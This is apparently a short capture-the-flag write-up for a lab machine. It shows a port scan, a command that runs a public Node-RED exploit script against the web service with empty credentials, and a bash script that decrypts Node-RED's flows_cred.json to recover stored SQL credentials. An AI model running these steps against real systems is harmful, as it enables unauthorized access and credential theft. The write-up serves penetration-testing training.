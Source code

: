 
# NMAP

* Rust scan result
 
```console
Open 10.10.185.167:22
Open 10.10.185.167:1880
```

## Web

* Node-red web service can be exploited via [noderedsh.py](https://gist.githubusercontent.com/qkaiser/79459c3cb5ea6e658701c7d203a8c297/raw/8966e4ee07400f16b92737161ca8df3cbfa37f91/noderedsh.py)

```bash
python3 noderedsh.py http://$IP:1080 --user "" --password ""
```

![nodered-svc](../Images/tengu-nodered.png)

### nodered_svc

* further exploring the nodered_svc directory, we come across `flows_cred.json` 
* according to this [article](https://blog.hugopoi.net/en/2021/12/28/how-to-decrypt-flows_cred-json-from-nodered-data/), we can get the `flows_cred.json` and the `.config.runtime.json` in to the folder `node_red_data` , then run the following script

```bash

#!/bin/bash
#
# Decrypt flows_cred.json from a NodeRED data directory
#
# Usage
# ./node-red-decrypt-flows-cred.sh ./node_red_data
#
jq  '.["$"]' -j $1/flows_cred.json | \
  cut -c 33- | \
  openssl enc -aes-256-ctr -d -base64 -A -iv `jq  -r '.["$"]' $1/flows_cred.json | cut -c 1-32` -K `jq -j '._credentialSecret' $1/.config.runtime.json | sha256sum | cut -c 1-64`
```

* upon running this we get the sql credentials that were found in the web application